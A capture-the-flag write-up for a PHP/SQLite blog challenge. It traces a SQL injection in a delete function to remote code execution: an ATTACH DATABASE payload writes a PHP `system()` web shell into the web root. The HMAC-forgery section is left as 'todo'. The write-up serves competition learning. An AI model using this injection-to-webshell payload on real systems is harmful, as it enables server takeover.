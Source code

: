 shitty blog 🤎
=====

Writeup by: ath0 and qxxxb


Challenge Author: 0xbb

Files: shitty blog 🤎-a6c0b8b672817005.tar.xz 


Overview
=====

The main logic of the challenges resides in one file, index.php.

There is a per-session SQLite database that gets created at `/var/www/html/data/` + `md5($salt.'|'.$id.'|'.$mac);`. In the session cookie, there is a user id (`$id`) and a HMAC which will be verified:

```
    $session = explode('|', $_COOKIE['session']);
    if( ! hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt), $salt.$session[1])) {
        exit();
    }
    $id = $session[0];
    $mac = $session[1];
```

If we can forge a valid HMAC, we can move forward with a totally controlled $id (more on the forgery later).

qxxxb noticed some interesting bits in the nginx config:

```
location / {
        try_files $uri $uri/ =404;
}
```

We can visit http://localhost:8888/data/<sandbox_url>/blog.sqlite3 and we'll be able to read our sqlite database back. But this doesn't help us achive our ultimate goal: We need to execute /readflag (neither nginx nor php have the ability to read flag.txt directly) -- so we need RCE. The other thing to note is nginx is setup to send any file ending in .php through the php interpreter:

```
location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.4-fpm.sock;
}
```

So if we can write a .php file somewhere in /var/www/html/ we can just visit that URL and it will get executed! But how can we create such a file?


Luckily, there's another vulnerability which is likely the first thing you'll notice when scanning index.php:

```
function delete_entry($db, $entry_id, $user_id) {
    $db->exec("DELETE from entry WHERE {$user_id} <> 0 AND id = {$entry_id}");
}
```

SQL injection on user_id! So if we can cram a SQL injection payload into $user_id, we can use any of the capabilities of SQLite.


Exploit
=====

SQL injection to RCE
----

Assuming we can control the user id (requires HMAC forgery, below), how will we get code execution?

Some [cheat sheet](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet) I found online shows you can create SQLite databases with arbitrary names:

```
1';ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('hax'); --
```

And nginx is setup to send any file ending in .php through the php interpreter:

```
location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.4-fpm.sock;
}
```

So our SQL injection payload just needs to create a file at `/var/www/html/data/lol-abcdefg.php` containing `<?php system('/readflag;') ?>` anywhere within the file.

So the SQL injection payload we need (with quotes correctly encoded) is:

```
'; ATTACH DATABASE '/var/www/html/data/lol-abcdefg.php' AS lol; CREATE TABLE lol.pwn (dataz test); INSERT INTO lol.pwn (dataz) VALUES ('<?php system(''/readflag'') ?>'); -- 
```

(the `--` at the end starts a comment)

Forging a HMAC
=====

todo
